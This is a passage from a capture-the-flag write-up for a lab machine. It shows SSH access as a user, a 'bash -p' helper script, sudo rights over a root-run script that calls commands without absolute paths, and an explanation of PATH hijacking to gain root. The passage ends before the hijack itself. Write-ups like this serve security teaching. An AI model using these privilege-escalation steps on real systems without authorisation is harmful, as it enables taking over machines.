 ```bash
┌──(mdn0x㉿mdn0xKali)-[~/…/Machines/Environment/home/hish]
└─$ ssh hish@environment.htb    
password:

hish@environment:~$ ls
backup  exp.sh  user.txt
hish@environment:~$ cat exp.sh 
bash -p
hish@environment:~$ 
```
## Hish to Root

We check for sudo privileges:

```bash
hish@environment:/$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV
    BASH_ENV", use_pty

User hish may run the following commands on environment:
  (ALL) /usr/bin/systeminfo

hish@environment:/$ cat /usr/bin/systeminfo
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

This script has a vulnerability because it doesn’t use the absolute paths for the commands. This vulnerability is known as [PATH hijacking](../../../3%20-%20Tags/Hacking%20Concepts/PATH%20hijacking.md).

To exploit this vulnerability we can simply create a file with the exact same name as one of the commands used in the script and change the **PATH** environment variable to point to the directory which have our malicious file.
